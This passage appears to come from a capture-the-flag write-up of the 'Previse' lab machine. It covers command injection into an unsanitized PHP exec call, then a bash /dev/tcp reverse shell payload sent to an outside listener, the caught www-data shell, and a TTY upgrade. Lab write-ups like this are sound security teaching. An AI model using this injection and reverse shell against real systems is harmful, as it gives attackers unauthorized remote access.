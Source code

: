 
The developer even left a comment about using Python because it was easier.

The output is `echo`ed, but then later it `ob_clean()` to get rid of that so
it doesn’t come back in the response.

There is no sanitization of the user input before it’s put into the call to
`exec`, which means that I can add all sorts of injections to get execution,
like `; [command]` and `$([command])`.

### Shell

To turn this RCE into a shell, I’ll simple add a reverse shell to the request
with `nc` listening:

    
    
    delim=comma;bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261' #
    

On sending, it just hangs, but at `nc`:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.11.104] 53808
    bash: cannot set terminal process group (1389): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@previse:/var/www/html$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

I’ll upgrade my shell using `script` (a nice alternative for `python` PTY
module):

    
    
    www-data@previse:/var/www/html$ script /dev/null -c bash
    Script started, file is /dev/null
    www-data@previse:/var/www/html$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@previse:/var/www/html$ 
    

Now I have up arrow for history and tab completion, and Ctrl-C won’t kill the
shell.

## Shell as m4lwhere

### Enumeration

#### Homedirs

